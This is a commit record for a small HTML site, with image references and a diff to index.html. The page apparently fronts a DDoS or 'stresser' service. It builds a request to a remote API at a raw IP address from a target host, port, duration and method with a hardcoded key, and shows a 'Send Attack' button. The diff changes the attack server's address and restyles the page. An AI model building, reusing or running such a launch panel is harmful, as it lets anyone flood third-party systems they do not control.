

Before and after one commit to rdtyafrlndooo/yujii, a plain HTML site: page index.html in a window 1280 px wide. Shown: the part 125-800 px from the top of the page, without its empty margins (320-960 px from the left). Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Update index.html

```diff
--- a/index.html
+++ b/index.html
@@ -11,13 +11,12 @@
       padding: 20px;
     }
     .container {
-      background-image: url("https://files.catbox.moe/l239zh.jpg");
       max-width: 500px;
       margin: auto;
       background: white;
-      background-repeat: no-repeat;
-        background-size: cover;
-        width: 100%;
+      padding: 20px;
+      border-radius: 10px;
+      box-shadow: 0 0 10px rgba(0,0,0,0.1);
     }
     h1 {
       text-align: center;
@@ -83,11 +82,11 @@
         return;
       }
 
-      const baseUrl = 'http://174.138.26.59/:2033/api/Matzz';
+      const baseUrl = 'http://209.97.174.135/:6004/api/Matzz';
       const fullUrl = `${baseUrl}?key=Matzz&host=${encodeURIComponent(host)}&port=${port}&time=${time}&method=${encodeURIComponent(method)}`;
 
       document.getElementById('result').innerHTML = `
-        <a href="${fullUrl}" target="_blank" class="button" style="background-color: green; color: white; padding: 10px 20px; border-radius: 5px; text-decoration: none; display: inline-block;">Send Attack</a>
+        <a href="${fullUrl}" target="_blank" class="button" style="background-color: red; color: white; padding: 10px 20px; border-radius: 5px; text-decoration: none; display: inline-block;">Send Attack</a>
       `;
     }
   </script>
```
